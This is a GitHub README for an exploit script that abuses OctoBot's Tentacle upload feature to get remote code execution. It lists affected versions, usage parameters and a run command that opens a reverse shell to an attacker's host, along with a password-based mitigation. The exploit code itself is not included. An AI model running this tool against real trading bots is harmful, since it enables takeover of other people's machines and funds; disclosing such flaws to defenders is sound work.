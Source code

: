 
# Sashimi Evil OctoBot Tentacle

Sashimi Evil OctoBot Tentacle is a python script that exploits a vulnerability that lies in the Tentacles upload functionality of the cryptocurrency trading bot [OctoBot](https://octobot.online/) which is designed to be easy to use and customizable. Indeed, this open source trading bot has the particularity of offering to theirs users the possibility to upload their own trading algorithms.

Sashimi Evil OctoBot Tentacle takes advantage of this feature to upload a malicious crafted package that leads to a remote code execution.

![Sahimi Evil OctoBot Tentacle](https://i.ibb.co/M26vLMM/Sashimi-octobot-killer.png)

### Affected versions
All OctoBot  versions until the latest version (0.4.0b12) are vulnerable.
However, this exploit will work from version 0.4.0b3 until version 0.4.3.

### Proof of concept
(PoC Tested on Octobot 0.4.0b10)

[![Video POC Sashimi OctoBot Vulnerability](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://www.youtube.com/watch?v=okL0azY1BE4)


### Requirement

* Python 3 (Must already have it if you are OctoBot user :D)
* An OctoBot target host platform. 

### How to use
This script is very simple to use only needs 4 parameters.
* `--RHOST`:  Refers to the IP of the target machine. (OctoBot IP address or hostname)
* `--RPORT`: Refers to the PORT of the target machine. (OctoBot use the port 5001 by default)
* `--LHOST` : Refers to the IP of your machine. (Can be local or external, depend who you are targeting :)
* `--LPORT`: Refers to the open port of your machine. (Must have an open port on your machine.)

Then the command is as follow:
```bash
python3 sashimi.py --RHOST TARGET_IP --RPORT TARGET_PORT --LHOST YOUR_IP --LPORT YOUR_OPEN_PORT
```
Be patient for around 3 min, the time to download, create and upload the malicious Tentacle package, and you should have a remote access to the machine. That's it!

### Mitigation
To protect against this attack, set a password in your OctoBot platform or add an .htpasswd.

### Note
FOR EDUCATIONAL PURPOSE ONLY.
